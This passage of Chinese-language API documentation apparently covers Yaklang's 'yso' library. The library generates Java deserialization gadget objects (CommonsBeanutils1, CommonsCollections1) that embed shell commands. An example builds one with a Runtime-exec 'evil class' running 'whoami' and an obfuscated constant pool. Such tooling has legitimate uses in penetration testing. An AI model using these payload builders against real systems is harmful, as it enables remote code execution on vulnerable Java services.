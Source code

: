 **请求参数**

- `options` : 用于配置Java对象的可变参数函数列表。

**返回类型**

- `r1` : *JavaObject，成功时返回生成的Java对象
- `r2` : error，成功时为nil错误，失败时返回相应错误。

## 示例代码

### 基础用法

示例代码

```yaklang
command = 'whoami'
className = 'KEsBXTRS'
gadgetObj,err = yso.GetCommonsBeanutils1JavaObject(

	 yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
		yso.obfuscationClassConstantPool(),
		yso.evilClassName(className), // 指定恶意类的名称

)
```

## 23. `yso.GetCommonsCollections1JavaObject`

## 功能描述

基于Commons Collections 3.1 序列化模板生成并返回一个Java对象，接受一个命令字符串作为参数，并将该命令设置在生成的Java对象中。

## 参数说明

```
func GetCommonsCollections1JavaObject(cmd: string) => => (*JavaObject, error)
```

**请求参数**

- `cmd` : 要设置在Java对象中的命令字符串。

**返回类型**

- `r1` : 成功时返回生成的Java对象。
- `r2` : 成功时返回nil错误，失败时返回相应错误。

## 示例代码

### 基础用法

假设的命令字符串为'ls'，生成Java对象并转换为字节码，最后以十六进制编码打印出来。
